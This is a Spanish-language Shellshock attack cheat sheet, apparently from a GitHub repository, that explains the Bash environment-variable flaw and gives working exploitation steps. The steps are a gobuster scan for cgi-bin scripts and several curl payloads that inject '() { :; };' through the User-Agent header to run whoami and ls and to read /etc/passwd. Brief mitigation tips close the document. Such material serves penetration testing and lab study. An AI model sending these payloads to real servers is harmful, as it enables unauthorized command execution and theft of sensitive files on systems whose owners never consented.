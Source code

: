 ```yaml
---

### 💣 **Shellshock Attack Cheat Sheet** 💣

---
```

---
#### 📝 **¿Qué es el Ataque Shellshock?**  
El ataque **Shellshock** explota una vulnerabilidad en el intérprete de comandos **Bash** en sistemas operativos basados en **Unix y Linux**.  
Fue descubierto en **2014** y se considera una de las vulnerabilidades más críticas en la historia de la informática.  

---

### ⚙️ **¿Cómo funciona Shellshock?**  
La vulnerabilidad surge cuando Bash maneja **variables de entorno**.  
Los atacantes pueden inyectar **código malicioso** en estas variables, que Bash ejecuta sin cuestionar su origen o contenido.  

---

### 💥 **Impacto del Ataque**  
- 📂 **Acceso a información confidencial.**  
- ✏️ **Modificación de archivos.**  
- 🕵️ **Instalación de programas maliciosos.**  
- 💻 **Control total del sistema comprometido.**  

---

### 🌐 **Vector de Ataque: User-Agent**  
Uno de los métodos más comunes de explotación es manipular el **User-Agent** para incluir comandos maliciosos.  
El servidor web ejecutará el comando al recibir la solicitud, especialmente si se encuentra el directorio **`cgi-bin`**.  

---

## 🔎 **Exploración Inicial: Detectando el directorio cgi-bin**

Antes de explotar la vulnerabilidad, es fundamental detectar el directorio **cgi-bin** y los archivos que contiene:  
```bash
gobuster dir -u http://localhost/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi -v
```
- 🔍 **Extensiones comunes:** `.pl`, `.sh`, `.cgi`  
- 💡 **Objetivo:** Encontrar archivos que se puedan explotar.  

---

## 🚀 **Payloads para Explotación usando curl**

Una vez identificado un archivo dentro de **cgi-bin**, intenta ejecutar comandos mediante el encabezado **User-Agent**:  

### 💣 **Ejecutando Comandos en el Servidor**
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; /usr/bin/whoami"
```
- 💡 **Explicación:** El encabezado **User-Agent** contiene el payload que ejecuta el comando `whoami`.

---

### 🪛 **Payload Alternativo con Echo**
Si el payload anterior no muestra nada, intenta agregar un **echo** antes:  
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```
- 💡 **Explicación:** El uso de `echo` puede forzar una respuesta más clara si el servidor no muestra la salida directamente.  

---

### 📝 **Otros Comandos para Verificar la Vulnerabilidad**
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; /bin/ls"
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; echo; /bin/cat /etc/passwd"
```
- 📂 **Objetivo:** Verificar la ejecución de comandos arbitrarios y la posibilidad de leer archivos sensibles.  

---

## 🚨 **Consejos de Mitigación**
1. **Actualizar Bash:** Asegúrate de que tu sistema tenga la última versión de Bash.  
2. **Desactivar CGI no necesario:** Deshabilita el uso de scripts CGI si no son imprescindibles.  
3. **Monitoreo de Logs:** Revisa los registros de acceso en busca de patrones sospechosos de comandos en User-Agent.  
4. **Implementar WAF:** Un firewall de aplicaciones web puede bloquear solicitudes maliciosas.  

---
